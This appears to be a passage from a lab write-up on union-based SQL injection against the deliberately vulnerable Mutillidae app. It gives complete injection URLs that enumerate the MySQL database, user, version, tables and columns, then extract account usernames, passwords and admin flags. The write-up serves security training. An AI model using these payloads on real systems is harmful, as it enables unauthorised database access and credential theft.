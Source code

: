 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{0002973A-5AF7-4C32-B994-A81624440FB8}](https://github.com/user-attachments/assets/faee3c63-caff-4cb9-8736-086ac75ee443)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{033A74C8-9DD5-4471-97FA-77A47AC2EE56}](https://github.com/user-attachments/assets/85e95ff5-3ce8-41a0-9e16-e68bfaddb18a)
![{AD9A7552-110E-425A-9758-A996C658F3C8}](https://github.com/user-attachments/assets/6632160b-5cb8-4ad9-95bc-cabfd22c6438)


The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

## OUTPUT:
![{CDEA8F71-7DC6-4FDF-833C-B665149EF259}](https://github.com/user-attachments/assets/f2ee55f2-9b73-4ec7-8afb-0897503a31bc)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
